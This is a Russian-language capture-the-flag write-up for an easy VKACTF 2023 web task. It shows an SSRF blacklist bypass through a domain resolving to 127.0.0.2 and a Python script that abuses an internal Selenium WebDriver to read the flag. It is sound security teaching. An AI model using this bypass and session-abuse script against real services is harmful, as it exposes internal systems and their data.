


## Система отслеживания секретов

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Система отслеживания секретов | Web | Легкая |

  
### Описание


> Автор: [Po4est]
>
Доктор Эггман скрывает у себя на сервере что-то очень важное, он даже настроил систему для постоянного наблюдения за своими секретами. Получится ли у тебя раскрыть его тайны?


### Решение
Нам дан сайт, с возможностью отправки запроса на указанный url.

По функционалу понятно, что здесь есть возможность эксплуатации SSRF.

Опытным путем можно выяснить, что все запросы на любой ip адресс блокирются, а на доменные имена отправляются без каких либо проблем.

Можем попробовать найти доменные имена с ip 127.0.0.1, можем сгенерировать его с помощью онлайн сервиса https://lock.cmpxchg8b.com/rebinder.html или на [2ip](https://2ip.ru/domain-list-by-ip/) посмотреть все домены, расположенные на нужном нам ip адрессе.

Возьмем например http://drr.ac расположенный на ip 127.0.0.1, но получим BLACKLISTED

Можно сделать вывод, что фильтры блокируют не только ip адреса, но и доменные имена расположенные на ip 127.0.0.1

Но это тоже можно обойти, т.к на сервер расположенный на 127.0.0.1 можно зайти с любого ip адреса принадлежащему 127.0.0.0/8

Давайте теперь попробуем найти доменное имя расположенное например на 127.0.0.2, я выбрал http://0nd.com

Теперь, если мы отправим этот url, то получим такой вывод



Если мы попробуем поискать эту ошибку в интернете, то найдем, что это вывод Selenium WebDriver.

Копнем глубже, почитаем документацию и найдем команды для вебдрайвера.



Получаем сессию по ручке /sessions, а дальше уже дело техники.

Вот скрипт на питоне:
```
import requests
import re

sess = requests.Session()

evilurl = "http://0nd.com"

def CheckAcces():
    if sess.get('https://hiddensecret.vkactf.ru/').status_code == 200:
        return 'Сайт работает'
    else:
        return 'Сайт недоступен'

def CheckSessions():
    session = sess.post("https://hiddensecret.vkactf.ru/", data={"url":f"{evilurl}/sessions"})
    try:
        sessionid = re.search(r'id":"(.*)"', session.text).group(1)
        return sessionid
    except:
        return 'Не удалось получить sessionId!'

def CheckFlag():
    try:
        sessionid = CheckSessions()
        source = sess.post("https://hiddensecret.vkactf.ru/", data={"url":f"{evilurl}/session/{sessionid}/source"})
        flag = re.search(r';\\">(.*)\\u003C/pre>', source.text).group(1)
        return flag
    except:
        return 'Не удалось получить флаг!'

if __name__ == "__main__":
    print(CheckAcces())
    print(CheckSessions())
    print(CheckFlag())
```

### Флаг

```
vka{webdriver_in_the_wrong_hands_is_very_dangerous}
```